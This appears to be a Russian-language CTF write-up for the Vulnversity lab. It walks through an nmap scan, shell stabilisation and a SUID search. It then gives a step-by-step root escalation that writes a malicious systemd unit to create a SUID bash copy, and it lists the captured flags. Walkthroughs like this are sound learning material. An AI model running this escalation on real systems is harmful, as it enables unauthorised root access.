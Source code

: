 # VulnHub - Vulnversity

📅 Дата: 2025-07-01  
🧠 Сложность:  easy  
💻 IP-адрес: 10.10.249.11  

---

## 🔍 Сканирование

```bash
export ip=10.10.249.11
export ports=$(sudo nmap -sS -p- $ip | grep -oP "^[0-9]+(?=/tcp\s+open)" | sort -n | paste -sd ",")
sudo nmap -sT -Pn -sV -T4 -A -p $ports $ip -oN scans/nmap.txt
```

🖼️ Nmap скан:

![nmap scan](screenshots/nmap_scan.png)

---

## 🕵️ Enumeration



## 📂 Получение доступа

Стабилизация
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```


## ⚙️ Привилегии

SUID find
```bash
www-data@ip-10-10-249-11:/tmp$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/mount
/bin/umount
/bin/systemctl
...
```
### /bin/systemctl

**1. Создание временного .service-файла**
```bash
TF=$(mktemp).service
```
 - mktemp создаёт уникальный временный файл (например, /tmp/tmp.ABCD1234).
 - Добавляется .service, чтобы systemd воспринимал его как юнит.

**2. Построчная запись вредоносного юнита systemd**
```bash
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/root; chmod +xs /tmp/root"
[Install]
WantedBy=multi-user.target' > $TF
```
 - [Service] – секция, определяющая сервис.
  - Type=oneshot – означает, что сервис выполнится один раз и завершится (не демонизируется).
  - ExecStart=... – команда, которая выполнится при старте сервиса. В данном случае:
   - cp /bin/bash /tmp/root – копирует /bin/bash в /tmp/root.
   - chmod +xs /tmp/root – добавляет SUID-бит (+s), чтобы /tmp/root запускался с правами владельца (root).
 - [Install] – секция, указывающая, когда сервис должен запускаться.
  - WantedBy=multi-user.target – сервис будет активирован при загрузке системы в многопользовательском режиме.

**3. Связывание сервиса с systemd**
```bash
systemctl link $TF
```
 - systemctl link создаёт символическую ссылку из /etc/systemd/system/ на временный файл.
 - Теперь systemd "видит" этот сервис и может им управлять.

**4. Активация сервиса (моментальный запуск)**
```bash
systemctl enable --now $TF
```
 - enable – добавляет сервис в автозагрузку (создаёт симлинк в /etc/systemd/system/multi-user.target.wants/).
 - --now – сразу запускает сервис (выполняет ExecStart).

**Что происходит?**
Systemd (работающий от root) выполняет команду:
```bash
/bin/sh -c "cp /bin/bash /tmp/root; chmod +xs /tmp/root"
```
В /tmp/ появляется файл root – это копия /bin/bash с SUID-битом.

**5. Запуск SUID-баша с правами root**
```bash
/tmp/root -p
```
 - **-p** – сохраняет привилегии (иначе bash сбрасывает SUID).


## 🏁 Флаги

- User flag: 8bd7992fbe8a6ad22a63361004cfcedb
- Root flag: a58ff8579f0a9270368d33a9966c7fd5

---

